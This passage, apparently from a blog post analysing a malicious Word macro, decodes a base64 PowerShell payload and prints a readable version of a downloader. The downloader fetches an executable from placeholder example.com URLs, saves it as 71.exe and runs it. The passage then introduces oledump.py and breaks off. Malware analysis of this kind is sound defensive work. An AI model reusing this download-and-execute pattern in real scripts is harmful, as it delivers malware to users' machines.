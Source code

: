 ## A PowerShell payload

Not really knowing what to do next, I decided to give the `strings` command a
try and found a very large string that looked like a bas64-encoded string.
I piped this string to `base64 -d` and got some PowerShell instructions in
return. Yay!

```powershell
$XvmIXvo='t6jTbM';$PbDL43 = '71';$uj6EVuv='L8KMkkX'; [...]
```

Given that I was stuck with the VBA macro, I decided to clean the PowerShell
[payload](https://en.wikipedia.org/wiki/Payload_(computing)) to better
understand it. There were unused variables and weird PowerShell-allowed calls.
Below is the PowerShell script rewritten to be more readable:

```powershell
# `$env:userprofile` returns the full path of the profile directory.
$pathToExe = $env:userprofile+'\71.exe';

$webClient = New-Object Net.WebClient;

# List of URLs pointing to a program to download
$urls = [
    http://some.example.com/folder-123/,
    http://another.example.com/folder-456/,
]

foreach ($url in $urls) {
    try {
        # Try to download a program...
        $webClient.DownloadFile($url, $pathToExe);

        # if it worked, then...
        If ((Get-Item $pathToExe).length -ge 24103) {
            # run it!
            Invoke-Item $pathToExe;
            break;
        }

        # otherwise, keep trying.
    } catch {
    }
}
```

This PowerShell script is a **Downloader**: its job is to download, save and execute
a malicious program (named `71.exe` here). I still did not know how this script was
executed by the macro though, so let's find out!

## OLE dump

I searched for a tool able to dump an OLE stream from a `.doc` file
and discovered [oledump.py](https://blog.didierstevens.com/programs/oledump-py/).
Analyzing the different sections, I found interesting data that I dumped as ASCII:

